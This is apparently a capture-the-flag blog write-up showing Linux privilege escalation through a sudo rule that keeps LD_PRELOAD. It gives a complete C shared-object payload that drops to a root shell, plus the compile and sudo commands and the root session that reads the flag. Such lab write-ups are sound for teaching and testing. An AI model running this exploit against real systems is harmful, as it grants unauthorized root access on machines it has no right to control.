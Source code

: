 ```yaml
---
layout: post
title: "PrivEsc abusing Sudo (LD_PRELOAD)"
date: 2020-04-17 00:22:00 -0000
categories: jekyll
permalink: /ctf.live/sudo
tags: [privesc, LD_PRELOAD, linux]

---
```


    noobuser@attackdefense:~$ id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
    
    noobuser@attackdefense:~$ sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
        env_keep+=LD_PRELOAD
    User noobuser may run the following commands on attackdefense:
        (root) NOPASSWD: /usr/sbin/apache2

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>

> #include <sys/types.h>

> #include <stdlib.h> 

> void _init() { 

> unsetenv("LD_PRELOAD"); 

> setgid(0); 

> setuid(0); 

> system("/bin/bash"); 

> }

then compile the file and generate the object file...

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    
    root@attackdefense:/tmp# yeayy


